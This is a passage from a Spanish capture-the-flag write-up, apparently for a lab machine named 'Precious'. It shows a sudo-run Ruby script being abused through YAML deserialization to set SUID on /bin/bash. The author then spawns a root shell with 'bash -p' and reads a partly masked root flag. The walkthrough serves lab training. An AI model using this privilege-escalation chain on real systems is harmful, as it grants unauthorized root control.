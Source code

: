 Ejecutamos nuevamente `update_dependencies.rb` y verificamos si se han realizado los cambios correspondientes.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Se puede verificar que los cambios de los permisos `SUID` se realizaron correctamente en el binario `/bin/bash`, lo que nos permite generar una bash con privilegios de `root`.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# whoami
root
```

Finalmente, leemos la bandera del usuario `root` en el directorio habitual.

```bash
bash-5.1# cd /root/
bash-5.1# ls
root.txt
bash-5.1# cat root.txt 
3b847b47c2c6d164****************
```

¡Happy Hacking!

